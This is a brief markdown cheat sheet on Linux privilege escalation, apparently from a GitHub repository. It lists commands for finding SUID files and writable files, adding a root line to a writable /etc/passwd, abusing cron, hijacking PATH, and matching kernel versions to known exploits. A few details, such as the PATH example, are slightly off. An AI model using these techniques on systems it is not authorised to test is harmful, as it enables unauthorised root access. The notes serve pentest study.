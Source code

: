 # Linux privilege escalation

> Some useful techniques for privilege escalation on Linux

## Table of Content
- [Abusing SUID/GUID files](#abusing-suidguid-files)
- [Finding writeable files](#finding-writeable-files)
- [Exploiting a writeable /etc/passwd](#exploiting-a-writeable-etcpasswd)
- [Escaping executables](#escaping-executables)
- [Exploiting Crontab](#exploiting-crontab)
- [Exploiting the PATH variable](#exploiting-the-path-variable)
- [Checking for kernel exploits](#checking-for-kernel-exploits)
- [Further learing](#further-learing)

## Abusing SUID/GUID files

- SUID: `rws-rwx-rwx`
- GUID: `rwx-rws-rwx`

```bash
find / -perm /4000 -type f 2>/dev/null     # SUID
find / -perm /u=s  -type f 2>/dev/null     # SUID
find / -perm /2000 -type f 2>/dev/null     # SGID
find / -perm /g=s  -type f 2>/dev/null     # SGID
find / -perm /6000 -type f 2>/dev/null     # SGID + SUID
find / -perm /u=s,g=s -type f 2>/dev/null  # SGID + SUID
```


## Finding writeable files

```
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```


## Exploiting a writeable /etc/passwd

- Line format
```
username:password:uid:gid:info:home:shell
```

- Example line 

```
admin:x:0:0:root:/root:/bin/bash
```

- Generate password hash 

```
openssl passwd -1 -salt [salt] [password]
```

## Escaping executables

```bash
sudo -l
```

[https://gtfobins.github.io/](https://gtfobins.github.io/)

> TODO: This part is not finished yet

## Exploiting Crontab

- View scheduled cron jobs

```
cat /etc/crontab
```

- Cronjob format

| keyword | meaning                           |
| :------ | :-------------------------------- |
| \#      | ID                                |
| m       | Minute                            |
| h       | Hour                              |
| dom     | Day of the month                  |
| mon     | Month                             |
| dow     | Day of the week                   |
| user    | What user the command will run as |
| command | What command should be run        |


**\# m h dom mon dow user command**

```
17 * 1 * * * root cd / && run-parts --report /etc/cron.hourly
```

## Exploiting the PATH variable

> Rewrite the PATH variable to point to an imitating executable that is being called within a script with SUID privileges.

```bash
echo $PATH
cd /tmp
echo "/bin/bash/" > ls
chmod +x ls
export PATH=/tmp:$PATH
```


## Checking for kernel exploits

- Crossmatching both of these for a suitable exploit

```
uname -a
lsb_release -a
```


## Further learing

* [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)


